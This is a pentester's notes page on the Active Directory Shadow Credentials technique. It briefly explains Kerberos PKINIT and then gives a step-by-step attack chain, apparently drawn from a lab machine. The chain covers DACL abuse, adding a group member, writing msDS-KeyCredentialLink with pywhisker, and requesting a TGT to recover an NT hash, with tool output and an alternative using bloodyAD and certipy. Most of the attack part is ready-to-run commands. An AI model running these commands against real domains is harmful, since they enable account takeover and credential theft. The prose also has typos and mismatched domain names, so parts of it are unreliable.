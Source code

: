 ```yaml
---
description: Shadow credentials | AS-REQ | AS-REP | Account takeover
---
```


# Shadow Credentials

The Kerberpos authentication protocol works with tickets, like an TGS can be obtained by presenting a TGT. That prior TGT can be obtained by validing a first step "pre-authentication", when this is removed from an account it vulnerable for ASREProast. Validatino for pre-authentication works symmetricallyl or (with a DES, RC4, AES128 or AES256 key) or asymmetrically (with certificates).

The asymmetrical way of pre-authenticating, working with certificates is called PKINIT.

{% hint style="info" %}
It is possible to add “Key Credentials” to the attribute **msDS-KeyCredentialLink** of the target user/computer object and then perform Kerberos authentication as that account using PKINIT.
{% endhint %}

### <mark style="color:yellow;">PKINIT</mark>

In Kerberos authentication clients must perform "pre-authentication" before the KDC provides a TGT which can be used for Service Tickets. Without pre-authentication anyone could obtain the key with a password like in AS-REP Roasting.

The pre-authentication works with a timestamp to prevent replay attacks. Most used is the symmetric key and less common asymmetric key approach which works with a public-private key pair. It encrypts pre-authentication data with private key, and the KDC decrypts it with the public key. The KDC has the keys as well allowing for exchange session key.

### <mark style="color:yellow;">Abuse</mark>

In order to exploit this technique we need:

* A minimum of one Windows Server 2016 Domain Controller is needed with PKNIT support.
* The Domain Controller must have a server authentication digital certificate installed, and DC has its own key pair for exhange.
* Have control over account that can edit target objects `msDs-KeyCredentialLink` attribute.

#### The attack

1. Create an RSA key pair
2. Create an X509 certificate configured with the public key
3. Create a [KeyCredential](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/de61eb56-b75f-4743-b8af-e9be154b47af) structure featuring the raw public key and add it to the `msDs-KeyCredentialLink` attribute
4. Authenticate using PKINIT and the certificate and private ke

```bash
python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add"
```

### <mark style="color:yellow;">Shadow credential attack</mark>

Example attack using DACL abuse and retrieving hash. In this scenario we have WriteOwner over user1 and GenericAll over user2.

```bash
# Enable Addmembers
python dacledit.py -action 'write' -rights 'WriteMembers' -principal 'user1' -target-dn 'CN=ZEN,CN=USERS,DC=CERTIFIED,DC=HTB' 'zencorp.aaa/user1':'pass123'
```

Next we add user1 to Zen group.

```bash
# Add member to group Zen
net rpc group addmem "Zen" "user1" -U "zencorp.aaa"/"user1"%"pass123" -S "DC01.zencorp.htb"
```

Generate keys and certifcate

```bash
python3 pywhisker.py -d "zencorp.aaa" -u "user1" -p 'pass123' --target "user2" --action "add"

# Will output
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: aacadbaa-8f06-2f9a-33ab-19bcad12694f
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: WElBKRZS.pfx
[*] Must be used with password: 1JHPFhefkg77PqfH8qGn
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

Now can request a TGT

```bash
gettgtpkinit.py certified.htb/management_svc -cert-pfx WElBKRZS.pfx -pfx-pass '1JHPFhefkg77PqfH8qGn' user.ccache
```

And finally we can get the NT hash

```bash
KRB5CCNAME=user.ccache python3 getnthash.py test.local/DC01\$ -key 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773
```

<details>

<summary>Alternate method using bloodyAD</summary>

```
1 - Set Owner:
bloodyAD --host zencorp.aaa -u user1 -p 'pass123' -d zencorp.aaa set owner "Management" user1

2 - Grant GenericAll
bloodyAD --host dc01.zencorp.aaa -u user1 -p 'pass123' -d zencorp.aaa  add genericAll 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' user1

3 - Add to Group:
bloodyAD --host dc01.zencorp.aaa -u user1 -p 'pass123' -d zencorp.aa add groupMember 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' user1

4.2 - Get keys/cert
bloodyAD --host dc01.certified.htb -u judith.mader -p 'judith09' -d certified.htb add shadowCredentials management_svc

4.2.2 - Shadow Credential - Request TGT
openssl pkcs12 -export -out 3MvYN5a2.pfx -inkey 3MvYN5a2_priv.pem -in 3MvYN5a2_cert.pem -password pass:
certipy auth -pfx 3MvYN5a2.pfx -dc-ip 10.129.252.63 -username management_svc -domain certified.htb
```

</details>
